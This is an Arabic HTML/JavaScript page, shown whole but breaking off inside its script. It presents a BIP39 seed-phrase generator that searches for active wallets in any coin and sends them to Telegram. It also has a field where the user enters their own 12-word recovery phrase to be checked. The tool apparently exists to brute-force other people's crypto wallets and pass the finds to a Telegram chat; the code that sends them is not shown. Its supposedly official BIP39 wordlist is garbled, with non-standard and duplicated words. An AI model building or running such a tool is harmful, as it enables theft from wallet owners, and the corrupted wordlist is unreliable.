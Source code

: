 go
<html lang="ar" dir="rtl">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>مولد عبارات BIP39 والبحث عن المحافظ النشطة - جميع العملات</title>
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
        }

        body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            min-height: 100vh;
            padding: 20px;
            direction: rtl;
            text-align: right;
        }

        .container {
            max-width: 800px;
            margin: 0 auto;
            background: rgba(255, 255, 255, 0.95);
            border-radius: 20px;
            box-shadow: 0 20px 40px rgba(0, 0, 0, 0.1);
            overflow: hidden;
            backdrop-filter: blur(10px);
        }

        .header {
            background: linear-gradient(135deg, #4facfe 0%, #00f2fe 100%);
            color: white;
            padding: 30px;
            text-align: center;
        }

        .header h1 {
            font-size: 2.5rem;
            margin-bottom: 10px;
            font-weight: 700;
        }

        .header p {
            font-size: 1.1rem;
            opacity: 0.9;
        }

        .main-content {
            padding: 40px;
        }

        .control-panel {
            background: #f8f9fa;
            border-radius: 15px;
            padding: 30px;
            margin-bottom: 30px;
            border: 1px solid #e9ecef;
        }

        .control-group {
            margin-bottom: 25px;
        }

        .control-group label {
            display: block;
            font-weight: 600;
            margin-bottom: 8px;
            color: #495057;
            font-size: 1rem;
        }

        .control-group input,
        .control-group select,
        .control-group textarea {
            width: 100%;
            padding: 12px 15px;
            border: 2px solid #dee2e6;
            border-radius: 10px;
            font-size: 1rem;
            transition: all 0.3s ease;
            background: white;
        }

        .control-group input:focus,
        .control-group select:focus,
        .control-group textarea:focus {
            outline: none;
            border-color: #4facfe;
            box-shadow: 0 0 0 3px rgba(79, 172, 254, 0.1);
        }

        .button-group {
            display: flex;
            gap: 15px;
            flex-wrap: wrap;
            justify-content: center;
            margin-top: 30px;
        }

        .btn {
            padding: 15px 30px;
            border: none;
            border-radius: 10px;
            font-size: 1rem;
            font-weight: 600;
            cursor: pointer;
            transition: all 0.3s ease;
            text-decoration: none;
            display: inline-flex;
            align-items: center;
            justify-content: center;
            gap: 8px;
            min-width: 150px;
        }

        .btn-primary {
            background: linear-gradient(135deg, #4facfe 0%, #00f2fe 100%);
            color: white;
        }

        .btn-primary:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(79, 172, 254, 0.3);
        }

        .btn-success {
            background: linear-gradient(135deg, #56ab2f 0%, #a8e6cf 100%);
            color: white;
        }

        .btn-success:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(86, 171, 47, 0.3);
        }

        .btn-danger {
            background: linear-gradient(135deg, #ff416c 0%, #ff4b2b 100%);
            color: white;
        }

        .btn-danger:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(255, 65, 108, 0.3);
        }

        .btn-secondary {
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            color: white;
        }

        .btn-secondary:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(102, 126, 234, 0.3);
        }

        .btn-warning {
            background: linear-gradient(135deg, #ff9a00 0%, #ffcc00 100%);
            color: white;
        }

        .btn-warning:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(255, 154, 0, 0.3);
        }

        .btn:disabled {
            opacity: 0.6;
            cursor: not-allowed;
            transform: none !important;
            box-shadow: none !important;
        }

        .status-panel {
            background: white;
            border-radius: 15px;
            padding: 25px;
            margin-bottom: 25px;
            border: 1px solid #e9ecef;
        }

        .status-panel h3 {
            color: #495057;
            margin-bottom: 20px;
            font-size: 1.3rem;
        }

        .status-grid {
            display: grid;
            grid-template-columns: repeat(auto-fit, minmax(200px, 1fr));
            gap: 20px;
            margin-bottom: 20px;
        }

        .status-card {
            background: #f8f9fa;
            padding: 20px;
            border-radius: 10px;
            text-align: center;
            border: 1px solid #e9ecef;
        }

        .status-card .number {
            font-size: 2rem;
            font-weight: 700;
            color: #4facfe;
            margin-bottom: 5px;
        }

        .status-card .label {
            color: #6c757d;
            font-size: 0.9rem;
        }

        .progress-bar {
            width: 100%;
            height: 8px;
            background: #e9ecef;
            border-radius: 4px;
            overflow: hidden;
            margin: 15px 0;
        }

        .progress-fill {
            height: 100%;
            background: linear-gradient(90deg, #4facfe 0%, #00f2fe 100%);
            width: 0%;
            transition: width 0.3s ease;
        }

        .log-panel {
            background: #212529;
            color: #ffffff;
            border-radius: 15px;
            padding: 20px;
            margin-top: 25px;
            max-height: 300px;
            overflow-y: auto;
            font-family: 'Courier New', monospace;
            font-size: 0.9rem;
            line-height: 1.4;
        }

        .log-entry {
            margin-bottom: 8px;
            padding: 5px 0;
            border-bottom: 1px solid #343a40;
        }

        .log-entry:last-child {
            border-bottom: none;
        }

        .log-timestamp {
            color: #6c757d;
            font-size: 0.8rem;
        }

        .log-success {
            color: #28a745;
        }

        .log-error {
            color: #dc3545;
        }

        .log-info {
            color: #17a2b8;
        }

        .wallet-display {
            background: #f8f9fa;
            border: 1px solid #dee2e6;
            border-radius: 10px;
            padding: 20px;
            margin: 15px 0;
            word-break: break-all;
        }

        .wallet-display .mnemonic {
            background: #e9ecef;
            padding: 15px;
            border-radius: 8px;
            font-family: 'Courier New', monospace;
            font-size: 0.9rem;
            margin-bottom: 10px;
        }

        .wallet-display .address {
            color: #495057;
            font-family: 'Courier New', monospace;
            font-size: 0.8rem;
        }

        .loading-spinner {
            display: inline-block;
            width: 20px;
            height: 20px;
            border: 3px solid rgba(255, 255, 255, 0.3);
            border-radius: 50%;
            border-top-color: #fff;
            animation: spin 1s ease-in-out infinite;
        }

        @keyframes spin {
            to { transform: rotate(360deg); }
        }

        .alert {
            padding: 15px 20px;
            border-radius: 10px;
            margin: 15px 0;
            font-weight: 500;
        }

        .alert-success {
            background: #d4edda;
            color: #155724;
            border: 1px solid #c3e6cb;
        }

        .alert-danger {
            background: #f8d7da;
            color: #721c24;
            border: 1px solid #f5c6cb;
        }

        .alert-info {
            background: #d1ecf1;
            color: #0c5460;
            border: 1px solid #bee5eb;
        }

        .alert-warning {
            background: #fff3cd;
            color: #856404;
            border: 1px solid #ffeaa7;
        }

        @media (max-width: 768px) {
            body {
                padding: 10px;
            }
            
            .header h1 {
                font-size: 2rem;
            }
            
            .header p {
                font-size: 1rem;
            }
            
            .main-content {
                padding: 20px;
            }
            
            .control-panel {
                padding: 20px;
            }
            
            .button-group {
                flex-direction: column;
            }
            
            .btn {
                width: 100%;
                min-width: auto;
            }
            
            .status-grid {
                grid-template-columns: repeat(2, 1fr);
                gap: 15px;
            }
            
            .status-card .number {
                font-size: 1.5rem;
            }
            
            .log-panel {
                font-size: 0.8rem;
                max-height: 200px;
            }
        }

        @media (max-width: 480px) {
            .header {
                padding: 20px;
            }
            
            .header h1 {
                font-size: 1.8rem;
            }
            
            .main-content {
                padding: 15px;
            }
            
            .control-panel {
                padding: 15px;
            }
            
            .status-grid {
                grid-template-columns: 1fr;
            }
            
            .status-card {
                padding: 15px;
            }
            
            .wallet-display .mnemonic {
                font-size: 0.8rem;
                padding: 10px;
            }
        }

        .fade-in {
            animation: fadeIn 0.5s ease-in;
        }

        @keyframes fadeIn {
            from { opacity: 0; transform: translateY(20px); }
            to { opacity: 1; transform: translateY(0); }
        }

        .log-panel::-webkit-scrollbar {
            width: 8px;
        }

        .log-panel::-webkit-scrollbar-track {
            background: #343a40;
            border-radius: 4px;
        }

        .log-panel::-webkit-scrollbar-thumb {
            background: #6c757d;
            border-radius: 4px;
        }

        .log-panel::-webkit-scrollbar-thumb:hover {
            background: #adb5bd;
        }

        .test-result {
            background: #f8f9fa;
            border-radius: 10px;
            padding: 20px;
            margin-top: 15px;
            border-left: 5px solid #4facfe;
        }

        .test-result.active {
            border-left-color: #28a745;
        }

        .test-result.inactive {
            border-left-color: #dc3545;
        }

        .test-result h4 {
            margin-bottom: 10px;
            color: #495057;
        }

        .test-result .balance {
            font-size: 1.2rem;
            font-weight: bold;
            margin: 10px 0;
        }

        .test-result .balance.positive {
            color: #28a745;
        }

        .test-result .balance.zero {
            color: #6c757d;
        }

        .test-result .transactions {
            margin: 10px 0;
        }

        .test-result .status {
            padding: 5px 10px;
            border-radius: 5px;
            font-weight: bold;
            display: inline-block;
        }

        .test-result .status.active {
            background: #d4edda;
            color: #155724;
        }

        .test-result .status.inactive {
            background: #f8d7da;
            color: #721c24;
        }

        .token-list {
            margin: 10px 0;
            padding: 10px;
            background: #e9ecef;
            border-radius: 5px;
        }

        .token-item {
            display: flex;
            justify-content: space-between;
            padding: 5px 0;
            border-bottom: 1px solid #ced4da;
        }

        .token-item:last-child {
            border-bottom: none;
        }

        .activity-reason {
            margin: 10px 0;
            padding: 8px 12px;
            background: #e8f5e8;
            border-radius: 5px;
            color: #2d5a2d;
            font-weight: 500;
        }

        .etherscan-link {
            margin-top: 10px;
            padding: 8px 0;
        }

        .etherscan-link a {
            color: #4facfe;
            text-decoration: none;
            font-weight: 500;
        }

        .etherscan-link a:hover {
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="header">
            <h1>🔑 مولد عبارات BIP39 - جميع العملات</h1>
            <p>البحث عن المحافظ النشطة وإرسالها إلى Telegram - يدعم جميع العملات</p>
        </div>

        <div class="main-content">
            <div class="control-panel">
                <div class="control-group">
                    <label for="searchSpeed">سرعة البحث (مللي ثانية بين كل عبارة):</label>
                    <input type="number" id="searchSpeed" value="3000" min="1000" max="10000" step="500">
                </div>

                <div class="control-group">
                    <label for="maxAttempts">الحد الأقصى للمحاولات (0 = لا نهاية):</label>
                    <input type="number" id="maxAttempts" value="0" min="0" max="10000">
                </div>

                <div class="button-group">
                    <button id="startBtn" class="btn btn-success">
                        <span>🚀 بدء البحث</span>
                    </button>
                    <button id="stopBtn" class="btn btn-danger" disabled>
                        <span>⏹️ إيقاف البحث</span>
                    </button>
                    <button id="testTelegramBtn" class="btn btn-secondary">
                        <span>📱 اختبار Telegram</span>
                    </button>
                    <button id="clearLogsBtn" class="btn btn-primary">
                        <span>🗑️ مسح السجل</span>
                    </button>
                </div>
            </div>

            <!-- قسم اختبار العبارات يدويًا -->
            <div class="control-panel">
                <h3>🔍 اختبار عبارة BIP39 يدويًا</h3>
                <div class="control-group">
                    <label for="manualMnemonic">أدخل عبارة BIP39 (12 كلمة):</label>
                    <textarea id="manualMnemonic" rows="3" placeholder="أدخل عبارة الاسترجاع المكونة من 12 كلمة هنا..."></textarea>
                </div>
                <div class="button-group">
                    <button id="testManualBtn" class="btn btn-warning">
                        <span>🔍 فحص العبارة</span>
                    </button>
                </div>
                <div id="manualTestResult" class="test-result" style="display: none;">
                    <!-- سيتم ملؤه ديناميكيًا -->
                </div>
            </div>

            <div class="status-panel">
                <h3>📊 إحصائيات العملية</h3>
                <div class="status-grid">
                    <div class="status-card">
                        <div class="number" id="totalGenerated">0</div>
                        <div class="label">إجمالي العبارات</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="activeWallets">0</div>
                        <div class="label">المحافظ النشطة</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="emptyWallets">0</div>
                        <div class="label">المحافظ الفارغة</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="errorCount">0</div>
                        <div class="label">الأخطاء</div>
                    </div>
                </div>
                <div class="progress-bar">
                    <div class="progress-fill" id="progressFill"></div>
                </div>
                <div id="currentStatus" class="alert alert-info">
                    جاهز للبدء... التطبيق يدعم الآن جميع العملات
                </div>
            </div>

            <div class="log-panel" id="logPanel">
                <div class="log-entry log-info">
                    <span class="log-timestamp" id="currentTime"></span>
                    مرحباً بك في مولد عبارات BIP39 المحسن. يدعم الآن جميع العملات المشهورة.
                </div>
            </div>
        </div>
    </div>

    <!-- تحميل مكتبة ethers.js -->
    <script src="https://cdn.jsdelivr.net/npm/ethers@5.7.2/dist/ethers.umd.min.js"></script>

    <script>
        // قائمة كلمات BIP39 الإنجليزية الرسمية
        const BIP39_WORDLIST = [
            "abandon", "ability", "able", "about", "above", "absent", "absorb", "abstract", "absurd", "abuse",
            "access", "accident", "account", "accuse", "achieve", "acid", "acoustic", "acquire", "across", "act",
            "action", "actor", "actress", "actual", "adapt", "add", "addict", "address", "adjust", "admit",
            "adult", "advance", "advice", "aerobic", "affair", "affect", "affirm", "afford", "afraid", "after",
            "again", "age", "agent", "agree", "ahead", "aim", "air", "airport", "aisle", "alarm",
            "album", "alcohol", "alert", "alien", "align", "alike", "alive", "allow", "almost", "alone",
            "alpha", "already", "also", "alter", "always", "amaze", "ambition", "amount", "ample", "analyst",
            "ancestor", "anchor", "ancient", "android", "animal", "anomaly", "another", "answer", "antenna", "antique",
            "any", "apart", "appendix", "apple", "apply", "approve", "approximate", "arch", "area", "arena",
            "argue", "arm", "armed", "armor", "army", "around", "arrange", "arrest", "arrive", "arrow",
            "art", "article", "ascent", "ask", "asleep", "aspect", "assault", "asset", "assist", "assume",
            "assurance", "assure", "astronomy", "at", "athetic", "atlas", "atom", "attack", "attend", "attitude",
            "attract", "auction", "audience", "audit", "august", "author", "auto", "available", "avenue", "average",
            "avoid", "awake", "aware", "away", "awesome", "awful", "axis", "baby", "back", "backup",
            "bacon", "bad", "bag", "balance", "balcony", "ball", "banana", "band", "bank", "bar",
            "bare", "bargain", "base", "basic", "basket", "battle", "beach", "bean", "beauty", "become",
            "beef", "before", "begin", "behalf", "behave", "behind", "believe", "bell", "belong", "below",
            "belt", "bench", "bend", "benefit", "best", "betray", "better", "between", "beyond", "bicycle",
            "bid", "big", "bill", "binary", "bind", "bio", "bird", "birth", "bitter", "black",
            "blade", "blame", "blanket", "blast", "bleak", "bless", "blind", "block", "blood", "bloom",
            "blossom", "blouse", "blue", "blur", "blush", "board", "boat", "body", "boil", "bold",
            "bolt", "bomb", "bond", "bone", "bonus", "book", "bool", "boost", "border", "bore",
            "borrow", "boss", "both", "bother", "bounce", "bout", "bowl", "box", "boy", "bracket",
            "brain", "branch", "brand", "brass", "brave", "bread", "break", "breakfast", "breast", "breath",
            "breed", "breeze", "brief", "bright", "bring", "brisk", "broad", "broken", "brother", "brown",
            "brush", "bubble", "budget", "buffer", "build", "bulb", "bulk", "bull", "bullet", "bunch",
            "burn", "burst", "bury", "bus", "business", "buy", "buzz", "cabin", "cable", "cactus",
            "cage", "cake", "call", "calm", "camera", "camp", "can", "canal", "cancel", "candy",
            "cannon", "canoe", "canvas", "canyon", "capable", "capital", "captain", "car", "carbon", "card",
            "care", "career", "carry", "cart", "case", "cast", "castle", "casual", "cat", "catalog",
            "catch", "category", "cattle", "caught", "cause", "cave", "ceiling", "cell", "cement", "censor",
            "central", "century", "ceramic", "certain", "certify", "chain", "chair", "chalk", "champion", "change",
            "channel", "chapter", "charge", "chase", "chat", "cheap", "check", "cheese", "chef", "cherry",
            "chest", "chicken", "chief", "child", "chimney", "choice", "choose", "chronic", "chuckle", "chunk",
            "cigar", "cinema", "cipher", "circle", "citizen", "city", "civil", "claim", "clash", "class",
            "clean", "clear", "clever", "click", "client", "cliff", "climb", "clinic", "clip", "clock",
            "clog", "close", "cloth", "cloud", "clown", "club", "clump", "cluster", "clutch", "coach",
            "coast", "code", "coffee", "coil", "coin", "collect", "color", "column", "combine", "come",
            "comfort", "comic", "common", "company", "compare", "compel", "compensate", "component", "comprise", "computer",
            "concert", "conclude", "concrete", "confirm", "confuse", "connect", "consider", "console", "conspiracy", "constant",
            "contact", "contain", "contrast", "control", "convince", "cook", "cool", "copper", "copy", "coral",
            "core", "corn", "correct", "cosmic", "cost", "cotton", "couch", "country", "couple", "course",
            "cousin", "cover", "cow", "cowboy", "crack", "cradle", "craft", "cram", "crane", "crash",
            "crate", "crave", "crawl", "crazy", "cream", "create", "credit", "creek", "crew", "cry",
            "crypt", "cube", "culture", "cup", "curious", "current", "curve", "cushion", "cut", "cycle",
            "dad", "damage", "damp", "dance", "danger", "dare", "dark", "dash", "data", "daughter",
            "dawn", "day", "deal", "debate", "decade", "decay", "deceive", "december", "decide", "decline",
            "decorate", "decrease", "deer", "defend", "define", "defy", "degree", "delay", "deliver", "demand",
            "demise", "denounce", "dense", "dentist", "deny", "depart", "depend", "depict", "deposit", "depress",
            "depth", "deputy", "derive", "describe", "desert", "design", "desire", "desktop", "despise", "destroy",
            "detail", "detect", "determine", "develop", "device", "devote", "diagnose", "diamond", "diary", "dice",
            "die", "diesel", "diet", "differ", "dig", "digit", "dignity", "dilemma", "dinner", "dip",
            "direct", "dirt", "disagree", "discover", "disease", "dish", "dismiss", "disorder", "display", "dispose",
            "distance", "distract", "district", "ditch", "dive", "divide", "divorce", "dizzy", "doctor", "document",
            "dog", "doll", "domestic", "donor", "door", "dose", "double", "doubt", "down", "download",
            "dozens", "draft", "drag", "drain", "drama", "draw", "dream", "dress", "drink", "drip",
            "drive", "drop", "dry", "duck", "duplicate", "dust", "duty", "dwarf", "dwell", "dynamic",
            "eager", "eagle", "ear", "earlier", "early", "earn", "earth", "easily", "east", "easy",
            "echo", "economy", "edge", "edit", "educate", "effort", "egg", "eight", "either", "elbow",
            "elder", "electric", "elegant", "element", "elevate", "eleven", "elite", "else", "embark", "embed",
            "embryo", "emit", "empire", "empty", "enable", "encode", "end", "endorse", "endure", "enemy",
            "energy", "enforce", "engage", "engine", "enjoy", "enlist", "enough", "enrich", "enroll", "ensure",
            "enter", "entire", "entry", "envelope", "episode", "equal", "equip", "equivalent", "era", "erase",
            "erect", "error", "escape", "especially", "essay", "essence", "establish", "estimate", "eternal", "ethical",
            "ethics", "even", "evening", "event", "ever", "every", "evident", "evil", "evoke", "evolve",
            "exact", "example", "excess", "exchange", "excite", "exclude", "excuse", "execute", "exercise", "exhaust",
            "exhibit", "exile", "exist", "exit", "expand", "expect", "experience", "expert", "explain", "explode",
            "explore", "export", "expose", "express", "extend", "extra", "extract", "ordinary", "extreme", "eyebrow",
            "eye", "fable", "face", "faculty", "fade", "fail", "fair", "faith", "fall", "false",
            "fame", "family", "famous", "fan", "fancy", "farm", "fashion", "fast", "fate", "father",
            "fault", "favor", "favorite", "fear", "feature", "february", "federation", "fee", "feed", "feel",
            "female", "fence", "festival", "fetch", "few", "fiber", "fiction", "field", "figure", "file",
            "fill", "filter", "final", "find", "fine", "finger", "finish", "fire", "firm", "first",
            "fiscal", "fish", "fit", "fitness", "five", "fix", "flag", "flame", "flash", "flat",
            "flavor", "flee", "flesh", "flex", "flight", "flip", "float", "flock", "floor", "flower",
            "fluid", "flush", "fly", "foam", "focus", "follow", "food", "foot", "force", "forest",
            "forget", "fork", "fortune", "forum", "forward", "fossil", "foster", "found", "four", "fox",
            "fragile", "frame", "fresh", "friend", "frog", "front", "frost", "frown", "frozen", "fruity",
            "fury", "future", "gain", "galaxy", "gallery", "game", "gap", "garage", "garbage", "garden",
            "garlic", "gas", "gate", "gather", "gauge", "generate", "genius", "genre", "gentle", "gently",
            "german", "gesture", "get", "ghost", "giant", "gift", "ginger", "girl", "give", "glad",
            "glance", "glass", "glide", "glimpse", "global", "globe", "gloom", "glory", "glove", "glow",
            "glue", "go", "goal", "goat", "god", "gold", "good", "goose", "gorgeous", "gorilla",
            "gospel", "gossip", "govern", "grab", "grace", "grade", "grain", "grand", "grant", "grape",
            "grasp", "grass", "gravity", "gray", "great", "greek", "green", "greet", "grid", "grief",
            "grim", "grip", "grit", "groan", "groom", "groove", "gross", "ground", "group", "grow",
            "guarantee", "guard", "guess", "guide", "guitar", "gulf", "gun", "gym", "habit", "hair",
            "half", "hammer", "hamster", "hand", "happy", "harbor", "hard", "hardware", "hardy", "harm",
            "harvest", "hat", "have", "hawk", "hazard", "head", "health", "heart", "heavy", "hedgehog",
            "height", "hello", "help", "hence", "her", "here", "heritage", "hero", "hide", "high",
            "hill", "hint", "hip", "hire", "his", "historic", "history", "hit", "hive", "hobby",
            "hoe", "hold", "hollow", "honest", "honey", "honor", "hope", "horizon", "horn", "horror",
            "horse", "hospital", "host", "hotel", "hour", "hover", "how", "human", "humble", "humor",
            "hundred", "hungry", "hunt", "hurdle", "hurry", "hurt", "hush", "hybrid", "ice", "icon",
            "idea", "identify", "idle", "ignore", "ill", "illegal", "illness", "image", "imitate", "immense",
            "imminent", "immoral", "impact", "impose", "impress", "improve", "impulse", "in", "inch", "include",
            "income", "increase", "index", "indicate", "infinite", "inflate", "influence", "inform", "initial", "inject",
            "injury", "inner", "incentive", "input", "insane", "insect", "inside", "inspect", "inspire", "install",
            "instinct", "institute", "instruct", "instrument", "insulate", "insure", "intact", "interest", "internal", "interact",
            "internet", "interpret", "into", "invade", "invent", "invest", "invite", "involve", "iron", "is",
            "island", "isolate", "issue", "item", "its", "jacket", "jail", "jam", "jar", "jazz",
            "jealous", "jeans", "jeep", "jelly", "jewel", "job", "join", "joint", "joystick", "judge",
            "juice", "july", "jump", "jungle", "junior", "junk", "just", "justice", "keen", "keep",
            "keeper", "kernel", "key", "kick", "kid", "kidney", "kind", "kingdom", "kiss", "kit",
            "kitchen", "kite", "kitten", "kiwi", "knee", "knife", "knock", "know", "knowledge", "lab",
            "label", "labor", "lack", "ladder", "lady", "lag", "lake", "lamp", "language", "lap",
            "laptop", "large", "larva", "laser", "last", "laugh", "launch", "lavish", "law", "lawn",
            "layer", "lazy", "leader", "leaf", "learn", "leave", "lecture", "left", "leg", "legal",
            "legend", "leisure", "lemon", "lend", "length", "lens", "lentil", "leopard", "less", "lesson",
            "let", "letter", "level", "liar", "liberty", "library", "license", "life", "light", "like",
            "limb", "limit", "link", "lion", "liquid", "list", "little", "live", "load", "loan",
            "lobster", "local", "lock", "logic", "lonely", "long", "loop", "lost", "lotion", "loud",
            "lounge", "love", "loyal", "luck", "luggage", "lumber", "lunch", "lung", "luxury", "lyrics",
            "macro", "magic", "magnify", "mail", "main", "major", "make", "mammal", "man", "manage",
            "mango", "manifold", "manner", "manual", "many", "marble", "march", "margin", "marine", "market",
            "marry", "mask", "mass", "master", "match", "material", "math", "matrix", "matter", "maximum",
            "maze", "meadow", "mean", "measure", "meat", "mechanic", "medal", "media", "melody", "melon",
            "memo", "memory", "menu", "mercy", "merge", "merit", "merry", "mesh", "message", "metal",
            "method", "middle", "might", "mighty", "migrate", "mile", "military", "milk", "mill", "minimum",
            "mint", "minute", "mirror", "misery", "miss", "mistake", "mix", "mixed", "mixer", "mobile",
            "model", "modify", "moment", "money", "monitor", "monkey", "monster", "month", "moon", "moral",
            "more", "morning", "mortgage", "most", "mother", "motor", "mountain", "mouse", "move", "movie",
            "much", "muffin", "mule", "multiply", "murmur", "muscle", "museum", "mushroom", "music", "must",
            "mutual", "my", "mystery", "myth", "nail", "name", "narrow", "nasty", "nation", "natural",
            "nature", "near", "neck", "need", "negotiate", "neighbor", "neither", "nervous", "network", "neutral",
            "never", "news", "next", "nice", "night", "nine", "noble", "noise", "nomad", "none",
            "noon", "normal", "north", "nose", "notable", "note", "nothing", "notice", "noun", "now",
            "nuclear", "number", "nun", "nurse", "nut", "oath", "obey", "object", "oblige", "obscene",
            "observe", "obtain", "occasion", "ocean", "october", "odds", "off", "offense", "office", "often",
            "oil", "okay", "old", "olive", "omega", "on", "once", "one", "only", "open",
            "opera", "opinion", "oppose", "opposite", "option", "orange", "orbit", "orchard", "order", "ordinary",
            "organ", "origin", "original", "orphan", "other", "ought", "ounce", "our", "outside", "oven",
            "over", "owner", "oxygen", "pace", "pack", "package", "page", "pain", "paint", "pair",
            "pale", "palm", "pan", "panda", "panel", "panic", "pant", "paper", "parade", "parent",
            "park", "parrot", "party", "pass", "passage", "past", "paste", "path", "patient", "patrol",
            "pattern", "pause", "pave", "payment", "peace", "peanut", "pear", "peasant", "pepper", "perfect",
            "perform", "period", "permit", "person", "pet", "phone", "photo", "phrase", "pick", "picture",
            "piece", "pierce", "pig", "pigeon", "pill", "pilot", "pine", "pink", "pioneer", "pistol",
            "pitch", "pivot", "pixel", "place", "plain", "plan", "planet", "plastic", "plate", "play",
            "please", "pledge", "pluck", "plug", "plunge", "pole", "police", "policy", "polish", "pollution",
            "pool", "popular", "portion", "position", "possible", "post", "potato", "potent", "pound", "poverty",
            "powder", "power", "practice", "prefer", "prepare", "present", "pretty", "prevent", "price", "pride",
            "primary", "print", "priority", "prison", "private", "prize", "problem", "process", "produce", "profit",
            "program", "project", "promise", "promote", "proof", "property", "prosper", "protect", "provide", "prune",
            "public", "pudding", "pull", "pulp", "pulse", "pump", "punish", "pupil", "puppy", "purchase",
            "pure", "purge", "push", "put", "puzzle", "pyramid", "quality", "quantify", "quarter", "question",
            "quick", "quit", "quiz", "quote", "rabbit", "race", "rack", "radar", "radio", "rail",
            "rain", "raise", "rally", "ram", "ranch", "random", "range", "rapid", "rare", "rash",
            "rate", "rather", "raven", "raw", "reach", "read", "ready", "real", "reason", "rebel",
            "rebuild", "recall", "receive", "recipe", "record", "recover", "recruit", "recycle", "reduce", "reflect",
            "reform", "refuse", "region", "regret", "regular", "reject", "relax", "release", "relief", "rely",
            "remain", "remember", "remind", "remove", "render", "renew", "rent", "reopen", "repair", "repeat",
            "replace", "report", "represent", "republic", "require", "rescue", "research", "reside", "resist", "resolve",
            "resort", "resource", "response", "result", "retire", "retreat", "return", "reveal", "review", "reward",
            "rhythm", "ribbon", "rice", "rich", "riddle", "ride", "ridge", "rifle", "right", "rigid",
            "ring", "rinsing", "riot", "ripple", "risk", "ritual", "rival", "river", "road", "roast",
            "robot", "robust", "rocket", "romance", "roof", "rookie", "room", "rose", "rotate", "rough",
            "round", "route", "royal", "rubber", "rude", "rug", "rule", "run", "rural", "rush",
            "raccoon", "sad", "saddle", "safe", "safety", "salad", "salary", "sale", "sally", "salt",
            "same", "sample", "sanctuary", "sand", "satisfy", "satellite", "satisfy", "sauce", "save", "say",
            "scale", "scan", "scare", "scatter", "scene", "school", "science", "scissors", "scorpion", "scout",
            "scrap", "screen", "screw", "script", "scrub", "sea", "search", "season", "seat", "second",
            "secret", "section", "security", "see", "seed", "seek", "segment", "select", "self", "sell",
            "seminar", "senior", "sense", "sentence", "series", "service", "session", "set", "settle", "setup",
            "seven", "several", "severe", "sex", "shadow", "shaft", "shake", "shallow", "shame", "shape",
            "share", "shark", "sharp", "shave", "she", "sheep", "sheet", "shelf", "shell", "shield",
            "shift", "shine", "ship", "shirt", "shock", "shoe", "shoot", "shop", "short", "shoulder",
            "shove", "show", "shrimp", "shrink", "shrug", "shuffle", "shy", "sick", "side", "siege",
            "sift", "sight", "sign", "silent", "silk", "silly", "silver", "similar", "simple", "simply",
            "since", "sing", "single", "sink", "sister", "situate", "six", "size", "skate", "sketch",
            "skill", "skin", "skirt", "sky", "slam", "sleep", "slice", "slide", "slim", "slip",
            "slope", "slow", "sly", "small", "smart", "smile", "smoke", "smooth", "snap", "sniff",
            "snow", "snuggle", "so", "social", "sock", "soft", "soil", "solar", "soldier", "solid",
            "solve", "some", "someone", "something", "sometimes", "son", "song", "soon", "sorry", "sort",
            "soul", "sound", "source", "south", "space", "spark", "speak", "special", "speed", "spell",
            "spend", "sphere", "spice", "spider", "spirit", "split", "spread", "spring", "spy", "squad",
            "square", "squeeze", "staff", "stage", "stairs", "stamp", "stand", "start", "state", "stay",
            "steady", "steam", "steel", "stem", "step", "stereo", "stick", "still", "sting", "stir",
            "stock", "stomach", "stone", "stool", "story", "strain", "strand", "strange", "strap", "strategy",
            "stream", "street", "strike", "strong", "struggle", "student", "stuff", "stumble", "style", "subject",
            "submit", "subway", "success", "such", "sudden", "suffer", "sugar", "suggest", "suit", "summer",
            "sun", "sunday", "sunrise", "sunshine", "super", "supply", "support", "supreme", "sure", "surface",
            "surge", "surprise", "surround", "survey", "suspect", "sustain", "swallow", "swamp", "sweat", "sweep",
            "sweet", "swift", "swim", "swing", "switch", "sword", "symbol", "symptom", "syrup", "system",
            "table", "tackle", "tag", "tail", "talent", "talk", "tall", "tame", "tank", "tape",
            "target", "task", "taste", "tattoo", "tax", "teach", "team", "tear", "tech", "text",
            "than", "thank", "that", "the", "then", "theme", "them", "thence", "theory", "there",
            "therefore", "these", "they", "thick", "thief", "thin", "thing", "think", "third", "this",
            "those", "though", "thread", "three", "thrive", "throw", "thumb", "thus", "ticket", "tide",
            "tiger", "tight", "tile", "till", "time", "tiny", "tip", "tire", "tissue", "title",
            "to", "toad", "today", "toe", "together", "token", "tolerance", "tomato", "tomorrow", "tone",
            "tongue", "tonight", "too", "tool", "tooth", "top", "topic", "toss", "total", "touch",
            "tough", "tour", "toward", "tower", "town", "toy", "trace", "track", "trade", "traffic",
            "tragedy", "trail", "train", "transfer", "transform", "trap", "trash", "travel", "tray", "tread",
            "treasure", "treat", "tree", "trend", "trial", "tribe", "trick", "truly", "trumpet", "trust",
            "try", "tube", "tug", "tumble", "tuna", "tunnel", "turbo", "twelve", "twenty", "twice",
            "twin", "twist", "two", "type", "typical", "ugly", "umbrella", "unable", "unaware", "uncertain",
            "unchain", "uncle", "under", "undermine", "understand", "undo", "uneasy", "unfair", "unfold", "unhappy",
            "unify", "union", "unique", "unit", "universe", "unknown", "unless", "unload", "unlock", "until",
            "untouched", "up", "update", "uplift", "upload", "upset", "urban", "urge", "us", "usage",
            "use", "used", "useful", "usher", "usual", "utility", "vacant", "vague", "valid", "valley",
            "valve", "van", "vanish", "vapor", "various", "vast", "vault", "vehicle", "vellum", "velvet",
            "vendor", "venture", "venue", "verb", "verify", "version", "very", "vessel", "veteran", "vial",
            "vibrant", "vicious", "victory", "video", "view", "village", "vine", "violet", "virtue", "visual",
            "vital", "vivid", "vocal", "vocals", "vote", "voyage", "vs", "vulnerable", "wage", "wait",
            "walk", "wall", "walnut", "want", "war", "ward", "warm", "warn", "wash", "wasp",
            "waste", "watch", "water", "wave", "way", "we", "weak", "wealth", "weapon", "wear",
